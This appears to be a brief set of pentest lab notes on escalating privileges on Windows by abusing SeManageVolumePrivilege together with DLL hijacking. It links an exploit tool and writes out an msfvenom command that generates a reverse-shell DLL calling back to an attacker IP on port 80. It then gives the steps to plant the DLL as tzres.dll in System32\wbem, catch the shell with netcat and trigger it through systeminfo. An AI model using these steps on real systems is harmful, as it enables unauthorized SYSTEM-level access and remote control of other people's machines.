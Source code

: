 https://medium.com/@raphaeltzy13/exploiting-semanagevolumeprivilege-with-dll-hijacking-windows-privilege-escalation-1a4f28372d37

SeManageVolumePrivilege allows user service privilege to perform volume maintenance tasks. Which in turn, could be used to let us modify users rights assignment on disks

download from here

https://github.com/CsEnox/SeManageVolumeExploit/releases/tag/public?source=post_page-----b95d3146cfe9--------------------------------

![[Pasted image 20240617231040.png]]

 transfer to script and run it

## later we need to do DLL hijacking

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.178 LPORT=80 -f dll -o tzres.dll
```

Transfer tzres.dll to your victim machine and copy it to C:\Windows\System32\wbem\tzres.dll

With that in place, set up your netcat listener on port 80 of your attacking machine and execute `systeminfo`

and we get shell!